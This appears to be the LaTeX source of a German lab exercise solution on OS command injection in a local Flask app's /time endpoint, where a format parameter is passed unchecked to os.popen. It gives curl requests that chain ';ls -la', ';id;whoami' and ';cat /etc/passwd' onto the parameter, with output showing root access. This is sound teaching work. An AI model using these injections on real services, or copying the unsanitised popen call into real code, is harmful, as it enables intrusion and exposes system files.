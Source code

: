 \documentclass[
	fontsize=12pt,
	paper=a4,
	numbers=noenddot,
	listof=totoc,
	listof=entryprefix,
	listof=nochaptergap,
	bibliography=totoc,
	parskip=half,
	openany
]{scrbook}
\begin{document}
Unter \texttt{/time} wird der \texttt{format}-Parameter ungeprüft an eine Shell
angehängt:

\begin{lstlisting}[language=Python]
cmdlines = os.popen("date +"+format_string)
\end{lstlisting}

\section*{a) Inhalt des aktuellen Verzeichnisses anzeigen}

Mehrere Befehle lassen sich in der Shell mit dem Semikolon \texttt{;}
hintereinander ausführen, alternativ mit \texttt{\&\&}, \texttt{|} oder
\texttt{\$()}. Der Parameter \texttt{format=x;ls -la} führt damit nach
\texttt{date} zusätzlich \texttt{ls -la} aus:

\begin{lstlisting}[language=bash]
curl "http://127.0.0.1:5000/time?format=x;ls%20-la"
-> HandleLogin.py  PrettyPrint.py  ShowDate.py  app.py
   createSQLiteDB.py  users.db  __pycache__
\end{lstlisting}

\section*{b) Als welcher Benutzer?}

\begin{lstlisting}[language=bash]
curl "http://127.0.0.1:5000/time?format=x;id;whoami"
-> uid=0(root) gid=0(root) groups=0(root)
   root
\end{lstlisting}

Der Code läuft als \texttt{root} im Container. Die Injection erlaubt damit
beliebige Befehle mit Root-Rechten.

\section*{c) Inhalt von /etc/passwd}

\begin{lstlisting}[language=bash]
curl "http://127.0.0.1:5000/time?format=x;cat%20/etc/passwd"
-> root:x:0:0:root:/root:/bin/bash
   daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
   ...
   www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
   nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
\end{lstlisting}

\chapter*{Aufgabe 6: Absicherung}
\end{document}
